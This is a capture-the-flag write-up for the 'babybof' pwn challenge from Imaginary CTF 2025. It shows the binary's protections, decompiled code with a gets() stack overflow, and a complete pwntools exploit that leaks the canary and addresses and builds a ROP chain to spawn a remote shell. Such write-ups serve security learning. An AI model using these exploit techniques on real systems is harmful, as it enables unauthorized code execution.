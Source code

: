 # babybof - Imaginary
## Challenge Info
- Date: 2025
- CTF Name: Imaginary
- Category: pwn
- Difficulty (subjective): easy
- Points: 100
- Provided Files: vuln(ELF)
- tools: 
## Brief Description
welcome to pwn! hopefully you can do your first buffer overflow
## Initial Analysis
### Environment
``` sh
checksec vuln
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
### Code
``` c
undefined8 main(void) {
    long in_FS_OFFSET;
    undefined8 unaff_retaddr;
    undefined buf [56];
    long canary;

    canary = *(long *)(in_FS_OFFSET + 0x28);
    setbuf(stdin,(char *)0x0);
    setbuf(stdout,(char *)0x0);
    puts("Welcome to babybof!");
    puts("Here is some helpful info:");
    printf("system @ %p\n",system);
    printf("pop rdi; ret @ %p\n",0x4011ba);
    printf("ret @ %p\n",0x4011bb);
    printf("\"/bin/sh\" @ %p\n",sh);
    printf("canary: %p\n",canary);
    printf("enter your input (make sure your stack is aligned!): ");
    FUN_004010c0(buf); // gets(buf);
    printf("your input: %s\n",buf);
    printf("canary: %p\n",canary);
    printf("return address: %p\n",unaff_retaddr);
    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
    }
    return 0;
}
```
## Vulnerability
### BOF(Buffer Overflow)
``` c
FUN_004010c0(buf); // gets(buf);
```
## Exploit
### Strategy
ROP 공격
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| canary | -0x8 |
| buf | -0x40 |
### payload
``` python
from pwn import *

p = remote('babybof.chal.imaginaryctf.org', 1337)
context.arch = "amd64"

# get info
p.recvuntil(b'system @ ')
system_addr = int(p.recvline().strip(b'\n'), 16)
log.info(f'system_addr: {hex(system_addr)}')
p.recvuntil(b'pop rdi; ret @ ')
pop_rdi_ret = int(p.recvline().strip(b'\n'), 16)
log.info(f'pop_rdi_ret: {hex(pop_rdi_ret)}')
p.recvuntil(b'ret @ ')
ret = int(p.recvline().strip(b'\n'), 16)
log.info(f'ret: {hex(ret)}')
p.recvuntil(b'\"/bin/sh\" @ ')
bin_sh = int(p.recvline().strip(b'\n'), 16)
log.info(f'bin_sh: {hex(bin_sh)}')
p.recvuntil(b'canary: ')
canary = int(p.recvline().strip(b'\n'), 16)
log.info(f'canary: {hex(canary)}')

# payload
payload = b''
payload += b'A' * 0x38 + p64(canary) + b'B' * 0x8
payload += p64(ret) + p64(pop_rdi_ret) + p64(bin_sh) + p64(system_addr)
p.sendafter(b'enter your input (make sure your stack is aligned!): ', payload)

# interactiv
p.interactive()
```